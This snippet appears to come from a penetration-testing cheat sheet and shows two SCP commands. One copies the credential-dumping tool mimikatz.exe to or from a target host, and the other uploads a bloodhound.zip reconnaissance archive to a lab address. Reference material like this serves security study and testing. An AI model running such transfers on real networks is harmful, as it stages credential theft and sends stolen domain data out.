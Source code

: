 # Secure Copy Protocol (SCP)

### 1) Download file (Requires SSH credentials)

    scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe	

### 2) Upload file

    scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip	
